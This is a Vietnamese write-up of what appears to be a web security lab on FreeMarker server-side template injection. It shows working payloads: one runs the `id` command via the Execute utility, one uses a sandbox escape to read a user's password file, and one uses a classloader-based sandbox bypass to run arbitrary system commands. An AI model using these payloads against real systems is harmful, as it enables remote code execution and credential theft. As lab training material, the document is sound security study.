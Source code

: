 ![image](https://github.com/user-attachments/assets/d6389a86-8b0f-4d5a-a9b8-65da75835320)

![image](https://github.com/user-attachments/assets/3b2630cc-6c18-4d9b-a061-62ef8a272dee)

Tiến hành fuzz với các kí tự đặc biệt, object không tồn tại thì nó nhả ra lỗi, và ta biết được challenge này nó sử dụng `freemarker template`

![image](https://github.com/user-attachments/assets/2adf159b-a63f-46d5-8318-fb3a3dc49d2d)

Test thử các loại syntax có thể áp dụng thì ta thấy được `Default: ${3*3} Legacy: #{3*3}`, là 2 template dùng được.

```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
```

![image](https://github.com/user-attachments/assets/8b6b42b6-dcca-4b01-b0ea-36d2a2bac8e8)

Sau khi thử payload trên của freemarker để rce thì nó lại ném lỗi ra cho chúng ta là chỉ được edit trong môi trường sandbox, tức là nó đã detect đc payload của chúng ta, sau khi lên mạng tìm hiểu cách bypass sandbox của freemarker thì:

Giờ sẽ có 2 cách, **cách 1** là ở hội nghị defcon có trình bày, link tôi để phía dưới, 

```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

Đó là payload. Đại loại là nó sẽ đọc file và output của nó sẽ dưới dạng `decimal`

**Cách 2**

```
<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("<SYSTEM CMD>")}
```

Chúng ta sẽ có payload trên để RCE.

![image](https://github.com/user-attachments/assets/95ee985b-401e-48bc-88d3-5561247a2221)

![image](https://github.com/user-attachments/assets/d531da60-d174-4205-84f9-d95c889bc70a)

Thành công.
# REFERENCES
[1]. https://media.defcon.org/DEF%20CON%2028/DEF%20CON%20Safe%20Mode%20presentations/DEF%20CON%20Safe%20Mode%20-%20Alvaro%20Mun%CC%83oz%20and%20Oleksandr%20Mirosh%20-%20Room%20For%20Escape%20Scribbling%20Outside%20The%20Lines%20Of%20Template%20Security.pdf
